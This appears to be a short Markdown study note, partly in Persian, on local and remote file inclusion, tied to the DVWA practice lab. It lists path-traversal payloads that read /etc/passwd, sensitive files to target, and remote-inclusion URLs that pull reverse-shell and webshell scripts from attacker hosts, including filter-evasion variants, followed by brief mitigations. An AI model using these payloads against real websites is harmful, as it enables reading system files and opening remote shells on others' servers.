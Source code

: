 # File Inclusion

## Local
- Concept
  - از این آسیب پذیری  برای خواند فایل های تنظیمات روی hosting machine استفاده می شود
  - همچنین فایل های تصادفی مانند /etc/passwd
  - همچنین ممکن است منجر به Information Disclosure شود

- Exploit
  - ```example1.php?page=intro.php../../../../../etc/passwd```
  - ```example2.php?page=intro../../../../../../../../../../etc/passwd%00``` 

- Intersting files
  - ```/proc/self/environ```
  - ```/var/log/auth.log```
  - ```/var/log/apache2/access.log```
  
- Mitigation
  - Use static file inclusion. hard code the fiels that we want to include in the code.

## Remote
- Exploit
  - ```http://127.0.0.1/vulnerabilities/fi/?page=http://192.168.72.200:9999/php-reverse-shell.php```
  - ```index.php?page=http://attackerIP/webshell.php``` 
  - ```index.php?page=htthttpp://attackerIP/webshell.php```
  - ```?page=hTTp://10.20.14.203/reverse.txt?```

- Mitigation
  -  Disable ```allow_url_fopen = On``` & ```allow_url_include = On```

## Example
  - [DVWA](../BuggyApp/DVWA/file-inclusion.md)  
